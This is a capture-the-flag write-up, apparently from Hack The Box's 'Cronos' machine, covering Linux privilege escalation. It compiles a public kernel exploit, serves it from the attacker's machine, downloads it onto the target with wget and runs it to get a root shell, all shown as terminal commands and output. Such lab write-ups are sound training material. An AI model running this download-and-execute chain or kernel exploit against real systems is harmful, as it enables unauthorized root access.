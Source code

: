 # Privilege Escalation

---

There is a kernel exploit for this version of linux:

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/44298)

So I download it, compile it and start a web server:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/cronos]
└─$ ls
44298.c  gobuster-sub-admin.txt  gobuster-sub-ns1.txt  gobuster.txt

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/cronos]
└─$ gcc 44298.c

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/cronos]
└─$ ls
44298.c  a.out  gobuster-sub-admin.txt  gobuster-sub-ns1.txt  gobuster.txt

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/cronos]
└─$ mv a.out 44298

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/cronos]
└─$ sudo python3 -m http.server 80                
[sudo] password for user: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.13 - - [19/Aug/2021 13:42:10] "GET /44298 HTTP/1.1" 200 -
```

Download the exploit on the target machine:

```bash
www-data@cronos:/tmp$ wget http://10.10.17.28/44298
---[snip]---
www-data@cronos:/tmp$ chmod +x 44298                        
www-data@cronos:/tmp$ ls -l
total 44                                                   
---x--x--x 1 www-data www-data 17872 Aug 19 14:41 44298
---[snip]---
```

Now, run the exploit code:

```bash
www-data@cronos:/tmp$ ./44298 
task_struct = ffff88003d717000
uidptr = ffff88003d5930c4
spawning root shell
root@cronos:/tmp# whoami
root
```
